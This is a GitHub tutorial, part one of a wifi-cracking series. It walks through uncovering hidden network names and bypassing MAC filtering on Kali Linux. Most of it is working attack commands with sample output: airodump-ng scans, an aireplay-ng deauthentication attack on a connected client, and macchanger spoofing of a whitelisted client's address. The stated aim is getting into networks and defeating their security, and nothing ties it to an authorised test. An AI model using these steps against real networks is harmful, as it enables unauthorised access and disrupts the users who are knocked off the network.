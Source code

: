 # Wifi-Cracking (Part-1)   

#### [ HIDDEN NETWORKS / MAC FILTERING]
---


In this writeup we are going to learn how to gain access on networks and bypass their security features , we will be covering  following types of networks:

- Target Hidden networks
- Bypass MAC filtering
- Methods to gain access on
  - Captive portals
  - WEP, WPA, WPA2
  - Fake Access Points
  - WPA Enterprise

these are main topics but there are many subtopics in each main topic which we will discuss in depth so just follow us.

Let's begin with **HIDDEN NETWORKS**, a hidden network is one that does not broadcast its name or **ESSID** and problem with this types of networks are we can't connect even they are open networks, the solution to this problem is **airodump-ng** and **deauth auth**

**NOTE : Use your wireless adapter in monitor mode and use your  wireless adapter name in commands  whatever it is in our case we use wlan0**

Run: (to see all networks around you)

```bash
root@kali:~# airodump-ng wlan0

```
You will get something like This

```bash
CH  1 ][ Elapsed: 0 s ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus7T   
44:11:C8:21:7B:76   25 100       14       0     0   6  54e  WPA2 CCMP   PSK  NETGEAR
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              <length: 0>

```
simply to identify Hidden networks see **ESSID* field and there will be no name or <length : 0>
in the place so copy its MAC Address and run airodump-ng

```
root@kali:~# airodump-ng --bssid 63:16:F0:EC:76:F3  --chaneel 11 wlan0

```

```bash
CH  1 ][ Elapsed: 1 min ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              <length: 0>

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3  33:90:E9:50:A8:F4   -33   0 -21      0       9

```
(Don't quit this operation)

Sometimes just running the airodump-ng  will give you the name of the  network or just use **deauth attack** to anyone of the client which is connected to that network

```bash
root@kali:~# aireplay-ng --deauth 4 -a 63:16:F0:EC:76:F3 -c 33:90:E9:50:A8:F4 wlan0

```
Hit enter after some packet the name of network will be available

```bash
CH  1 ][ Elapsed: 1 min ][ 2020-05-05 20:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              XOXO

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3  33:90:E9:50:A8:F4   -33   0 -21      0       9

```

Now you get the name we want to connect with this network for this :

**NOTE : You cannot connect any network in monitor mode so reset your wireless adapter to managed mode because monitor mode is only used to capture the packets**

there are many options to do this either use **airmon-ng stop wlan0mon** or **iwconfig wlan0 mode managed** use any of the command as your wish or just simply disconnect your wireless apadter and connect it once again it will do your job and run .

```bash
root@kali:~# service network-manager start

```

![](img/access/g1.jpeg)
Now,
- Go to your wifi options select the options *connect to hidden wifi network*
- select security option and write the name you got.
- It will connect it successfully to a hidden network.

---
##### MAC FILTERING

**NOTE: wireless card in monitor mode**

Another chance you will be not able to connect an open network even if you know it key because that router must be using **mac filtering**, since MAC Address is unique to each network device, Routers can use **mac filtering** to allow/deny devices from connecting based on mac address, it works on :

- Using a blacklist- allow all MACs to connect except the ones in the list
- Using a whitelist- deny all MACs from connecting except ones in the list.

At first lets see how to bypass blacklist method

Run: (to see all networks around you)

```bash
root@kali:~# airodump-ng wlan0

```

```bash
CH  1 ][ Elapsed: 0 s ][ 2020-05-06 10:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus7T   
44:11:C8:21:7B:76   25 100       14       0     0   6  54e  WPA2 CCMP   PSK  NETGEAR
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN               XOXO

```

Run airodump-ng on that specific network to see clients connected to it

```bash
root@kali:~# airodump-ng --bssid 63:16:F0:EC:76:F3  --chaneel 11 wlan0

```
---

```bash
CH  1 ][ Elapsed: 45 sec ][ 2020-05-06 10:37                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
63:16:F0:EC:76:F3   25 14         0       0     0   11 54e  OPN              XOXO

BSSID                  STATION         PWR   Rate     Lost  Frames   Probe
63:16:F0:EC:76:F3   80:E9:59:77:4F:99  -33   0 -21      0       9

```
Output suggest that the client with this 80:E9:59:77:4F:99 address is in whitelist thats why it connected to it change your MAC address of wireless card to same as connected client

**NOTE: For connecting network change mode to managed**
(disconnect the card and again connect to machine) and use **macchanger** tool change MAC address

```bash
root@kali:~# ifconfig wlan0 down
root@kali:~# macchanger -m 80:E9:59:77:4F:99 wlan0

```
this command will to do the job see if you get any error or you want to change MAC Address in different way you can do it
Now if you go to wifi-settings and you will be able to connect to it because now you are in the whitelist.


- Link to [Part-2](https://github.com/noob-atbash/wifi-cracking/blob/master/wifi-crackingP2.md)


**AUTHOR** - [Error](https://github.com/Error-200)
